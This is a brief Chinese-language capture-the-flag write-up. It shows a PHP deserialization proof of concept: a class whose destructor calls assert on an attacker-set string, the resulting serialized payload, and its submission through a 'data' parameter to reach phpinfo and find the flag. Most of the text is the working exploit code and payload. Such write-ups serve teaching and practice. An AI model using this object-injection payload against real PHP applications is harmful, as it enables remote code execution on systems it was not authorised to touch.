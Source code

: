 由于没有文件包含，我们构造反序列化访问访问phpinfo（）试图寻找 flag

这里放下poc：

```
<?php
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "phpinfo()";
        $this->b = "assert";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;
echo serialize($c);
?> 
```

获得序列化字符串

```
O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";} 
```

传入data变量。

这样我们就进入了phpinfo

寻找flag 哎 找到了 哎 就是玩